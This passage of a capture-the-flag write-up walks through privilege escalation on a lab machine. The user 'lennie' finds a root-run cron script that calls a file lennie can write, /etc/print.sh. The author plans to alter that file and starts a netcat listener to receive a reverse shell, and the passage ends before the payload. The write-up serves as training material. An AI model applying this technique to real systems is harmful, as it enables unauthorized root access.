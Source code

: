 I couldn't go into lennie's home directory before, now that I am lennie I went to their home directory:

```bash
$ cd ~
$ ls
total 20K
drwx------ 4 lennie lennie 4.0K Nov 12  2020 .
drwxr-xr-x 3 root   root   4.0K Nov 12  2020 ..
drwxr-xr-x 2 lennie lennie 4.0K Nov 12  2020 Documents
drwxr-xr-x 2 root   root   4.0K Nov 12  2020 scripts
-rw-r--r-- 1 lennie lennie   38 Nov 12  2020 user.txt
$ cat user.txt
REDACTED
```

## What are the contents of root.txt?

The scripts directory has a couple of files in it:

```bash
$ ls -lh
drwxr-xr-x 2 root   root   4.0K Nov 12  2020 .
drwx------ 4 lennie lennie 4.0K Nov 12  2020 ..
-rwxr-xr-x 1 root   root     77 Nov 12  2020 planner.sh
-rw-r--r-- 1 root   root      1 Jul  8 14:19 startup_list.txt
```

The startup_list.txt file is empty but the planner.sh has the following content:

```bash
$ cat scripts/planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

This script (scripts/planner.sh) calls the /etc/print.sh script. I check who owns that file:

```bash
$ ls -lha /etc/print.sh
-rwx------ 1 lennie lennie 68 Jul  7 18:03 /etc/print.sh
```

I feel confident that the /home/lennie/scripts/planner.sh file is ran as a cron by root since it is owned by them. Going with the idea that root is running that file as a cron, I can think of two ways to escalate privileges. The first approach is to delete the scripts folder in lennie's home directory and recreate it with a modified planner.sh script. The second approach is to alter the /etc/print.sh script.

I went with the second choice since it only involves altering a single file.

On my attack machine I setup a listener with the following command:

```bash
$ nc -lnvp 4445
```
